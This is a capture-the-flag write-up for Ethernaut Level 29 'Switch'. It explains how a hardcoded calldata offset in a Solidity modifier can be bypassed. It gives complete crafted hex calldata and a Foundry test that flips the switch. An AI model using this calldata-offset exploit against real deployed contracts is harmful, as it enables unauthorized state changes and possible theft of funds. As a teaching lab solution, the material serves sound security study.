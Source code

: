 # Level 29 - Switch

## Objectives

- flip the switch

## Contract Overview

The `Switch` contract is designed to manage a switch that can be turned on or off. It includes two main functions: `turnSwitchOn` and `turnSwitchOff`, which respectively activate and deactivate the switch. The current state of the switch is stored in a boolean variable called `switchOn`.

The contract also features two modifiers: `onlyThis` and `onlyOff`. The `onlyThis` modifier restricts certain functions to be called only by the contract itself, ensuring internal control. On the other hand, the `onlyOff` modifier allows functions to be executed only if they match a specific function selector, in this case, `turnSwitchOff()`. This restriction adds an additional layer of security by ensuring that only authorized functions can turn off the switch.

The "`lipSwitch` function serves as a gateway for external calls to interact with the switch. It verifies that the provided function selector matches the `turnSwitchOff()` function and then forwards the call to the appropriate function. If the call is successful, the switch state is updated accordingly.

## Finding the weak spots

The objective is to change the state of `switchOn` to true. This can be achieved by invoking the `turnSwitchOn` function via the `flipSwitch` function.

```solidity

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

```

However, there's a unique modifier applied to the `flipSwitch` function, purportedly restricting it to only allow the execution of the `turnSwitchOff` function - `onlyOff`:

```solidity
    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

```

The main issue with this modifier lies in its hardcoded reliance on the offset of 68 to extract the function signature from the calldata.

Hence, the objective is to craft calldata containing two distinct function selectors simultaneously.

To exploit the contract, we'll utilize the call method and transmit calldata containing three distinct function selectors:

- `flipSwitch(bytes memory _data)`
- `turnSwitchOff()`
- `turnSwitchOn()`

We can calculate the functions selectors using Foundry.

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/SwitchFunctionSelectors.png)

So we have:

- `flipSwitch(bytes memory _data)` - 0x30c13ade
- `turnSwitchOff()` - 0x20606e15
- `turnSwitchOn()` - 0x76227e12

After we have our function selector values we can setup the calldata, from inspecting our contract, we know that the main issue with this modifier lies in its hardcoded reliance on the offset of 68 to extract the function signature from the calldata (as previously mentioned). That is why we know that the `onlyOff` modifier requires that our calldata has the value `0x20606e15` at an offset of 64 bytes.

Taking this into account, here's the structure our calldata should adhere to:

```solidity
// 30c13ade -> function selector for flipSwitch(bytes memory data)
// 0000000000000000000000000000000000000000000000000000000000000060 -> offset for the data field
// 0000000000000000000000000000000000000000000000000000000000000000 -> empty stuff so we can have bytes4(keccak256("turnSwitchOff()")) at 64 bytes
// 20606e1500000000000000000000000000000000000000000000000000000000 -> bytes4(keccak256("turnSwitchOff()"))
// 0000000000000000000000000000000000000000000000000000000000000004 -> length of data field
// 76227e1200000000000000000000000000000000000000000000000000000000 -> functin selector for turnSwitchOn()

```

So out calldata will look like:

```solidity
30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000

```

Now we are able to call our victim contract and send out calldata as the parameter to change `switchOn` variable to `true`.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/29-Switch.t.sol))

```solidity

        emit log_named_string(
            "switchOn before attack",
            ethernautSwitch.switchOn() ? "true" : "false"
        );

        // 30c13ade -> function selector for flipSwitch(bytes memory data)
        // 0000000000000000000000000000000000000000000000000000000000000060 -> offset for the data field
        // 0000000000000000000000000000000000000000000000000000000000000000 -> empty stuff so we can have bytes4(keccak256("turnSwitchOff()")) at 64 bytes
        // 20606e1500000000000000000000000000000000000000000000000000000000 -> bytes4(keccak256("turnSwitchOff()"))
        // 0000000000000000000000000000000000000000000000000000000000000004 -> length of data field
        // 76227e1200000000000000000000000000000000000000000000000000000000 -> functin selector for turnSwitchOn()

        bytes
            memory callData = hex"30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";

        address(ethernautSwitch).call(callData);

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        emit log_named_string(
            "switchOn after attack ",
            ethernautSwitch.switchOn() ? "true" : "false"
        );

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Switch.png)

## References

- [Solidity documentation about function selectors and function encoding](https://docs.soliditylang.org/en/v0.8.19/abi-spec.html#examples)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [alex0207s](https://github.com/alex0207s/ethernaut-foundry-boilerplate)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
